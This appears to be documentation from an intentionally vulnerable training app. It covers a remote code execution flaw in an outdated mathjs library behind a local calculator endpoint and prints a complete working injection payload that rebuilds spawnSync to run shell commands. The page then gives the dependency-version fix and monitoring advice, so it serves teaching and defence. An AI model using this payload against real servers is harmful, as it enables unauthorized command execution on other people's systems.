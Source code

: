 # Using Components with Known Vulnerabilities

## mathjs Remote Code Execution

The version of mathjs(https://www.npmjs.com/package/mathjs) library used in the application has a remote code execution vulnerability that allows an attacker to run arbitrary code on the server. 

To understand how the exploit works, look at [this](https://capacitorset.github.io/mathjs/)

The calculator implementation uses `mathjs.eval` to evaluate user input at

http://127.0.0.1:9090/app/calc

There is no input validation either, probably because it is going to be a maths equation which will contain symbols

Malicious input that triggers command execution
```
cos.constructor("spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}")();cos.constructor("return spawnSync('id').output[1]")()
```

Which results in this
![rce](/resources/rce.png "Command Execution")

**Solution**

Modify fixed version to compatible version in `package.json`
```
...
    "flash": "^1.1.0",
    "mathjs": "^3.10.1",   // Add ^ to install latest compatible version
    "md5": "^2.2.1",
...
```

Now install the package again by running `npm install`

**Fixes**

Implemented in the following files

- *package.json*

**Recommendation**

- Dependencies must be updated regularly, and preferably automatically. 
- Solutions like [Snyk](https://snyk.io/) and [NSP](https://nodesecurity.io/) can regularly monitor your dependencies and alert you of any vulnerable dependencies.

**Reference**

- https://www.owasp.org/index.php/Top_10_2013-A9-Using_Components_with_Known_Vulnerabilities
- https://blog.travis-ci.com/2017-04-20-continuous-security-snyk-travis-ci/ 
